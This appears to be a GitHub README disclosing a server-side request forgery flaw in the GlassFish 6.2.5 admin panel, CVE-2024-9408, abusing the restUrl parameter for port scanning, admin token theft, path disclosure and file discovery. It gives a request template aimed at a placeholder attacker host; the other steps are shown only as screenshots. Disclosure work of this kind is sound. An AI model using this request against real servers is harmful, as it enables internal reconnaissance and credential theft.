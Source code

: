## Glassfish 6.2.5 Server Side Request Forgery Vulnerability ( CVE-2024-9408 )

SSRF (Server-Side Request Forgery) is a vulnerability that allows an attacker to force the application to send requests from the server to internal or external resources of the attacker's choosing. This can enable the attacker to perform internal port scanning, discover services accessible only from the server, and bypass firewalls to reach otherwise restricted systems.

**Vulnerable Path** : https://[targetexample]:4848/download/log/?contentSourceId=LogViewer&restUrl=https%3A%2F%2F[evilpayload]

**Research Os** : Ubuntu 22.04 , Windows Server 2019  

**Vulnerable Parameter** : restUrl

### Impact
------------------------------------------------               
- [x] Port Scan and Network Discovery
- [x] Information disclosure
- [x] File Discovery


### Sample Attack Scenario
--------------------------------------------
![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/glassfish%20Scenario.jpg)

On GlassFish version 6.2.5, an attacker can exploit the ```restUrl``` parameter within the admin panel to trigger an SSRF vulnerability. In addition to performing port and subnet enumeration, the attacker can leverage the vulnerable GlassFish server to interact with their own machine listening within the network, leading to further exploitation such as path disclosure and file discovery. This significantly expands the attack surface.

### Vulnerability Discovery and Port Scanning
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan1.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan2.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan3.png)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/port-scan4.png)

### Obtain gfresttoken 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Ubuntu(researchServer) Server Glassfish 6.2.5 

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken1.PNG)


![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/gfresttoken2.PNG)

### Path Disclosure
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.160 -  Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/pathdisclosure.PNG)

### File Discovery 
------------------------------------------------
**Attacker Ip:** 192.168.81.187

**Glassfish Server Ip:** 192.168.81.129 - Windows Server Glassfish 6.2.5

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery1.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery2.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery3.PNG)

![](https://github.com/mustgundogdu/Glassfish-SSRF/blob/main/ss/filediscovery4.PNG)


